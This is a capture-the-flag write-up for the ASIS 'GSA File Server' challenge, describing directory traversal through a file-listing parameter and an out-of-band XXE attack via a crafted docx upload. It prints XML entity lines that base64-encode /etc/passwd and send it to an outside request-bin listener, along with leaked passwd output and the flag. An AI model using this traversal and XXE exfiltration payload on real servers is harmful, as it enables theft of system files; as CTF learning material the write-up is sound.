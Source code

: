 
<h1>GSA File Server</h1>  
<b>Category</b>: Web Network OSINT
<h2>Description:</h2>

GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:*
Alert: No remote brute force and automated scanning are needed.


So after checking the website, look like a simple web app with JS (js/functions.js) with a interesting parameter (showFiles)


![img](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/1.PNG)

so i tried  a GET request to see the server answer and all i get is this  (look like listing the elements in specefic current directory
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/2.PNG)

let check with burpsuit :
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/3.PNG)

Bingooo, as you can see in the server answer ther is the Directory parameter , so let's try some traversal things ,
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/4.PNG)

use ../  and you can see that it's work perfectly , let's check others files 

![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/5.PNG)


so the admin panel is the (panelmanager-0.1) , now we have to read the files on the server, but first let's check the the panelmanager
let's try 128.199.40.185/panelmanager-0.1 .. FAIL!!!
but as you can see in the description that said (that Scope is 128.199.40.185:*) 

you can check with nmap (becarfull with the scan tools) try the common port 8080 (FAIL) ..8081 (work)
is a simple upload that's allow you to upload files (docx ..)

![img](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/099.PNG)

generally when we say docx ==> XML ==> XXE , 
we need a listener and a good payload and docx (where we inject in the word/document.xml) 
i used https://requestb.in (as listener )  and as a payload in the docx 

![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/payload.PNG)

where the txt file contains:
```
<!ENTITY % filebase64 SYSTEM "php://filter/convert.base64-encode/resource=../../../../etc/passwd">
<!ENTITY % injme '<!ENTITY startme SYSTEM "https://requestb.in/****?xxe=%filebase64;">'>
```

so i have only to modify the payloads in my webserver and reupload the file docx (with it rebuild-it every single try)
and to check the aswer you have to visite (https://requestb.in/****?inspect) 

i get answer for the /etc/passwd  
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
[................]
```

to be honest i spent hours graping files but no FLAG ...  but the most interesting thing  is the  filesharing (permission denied) 
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/7.PNG)

so the idea is to read /etc/samba/smb.conf to get secret dir filename which is s3cRetP4th 
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/10.PNG)

and all we have to do now is the grab the file and get the FLAG  
![alt text](https://raw.githubusercontent.com/occupe/Writeups-CTF/master/ASIS-CTF/Gsa%20File%20server/images/12.PNG) 

the flag  ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}  
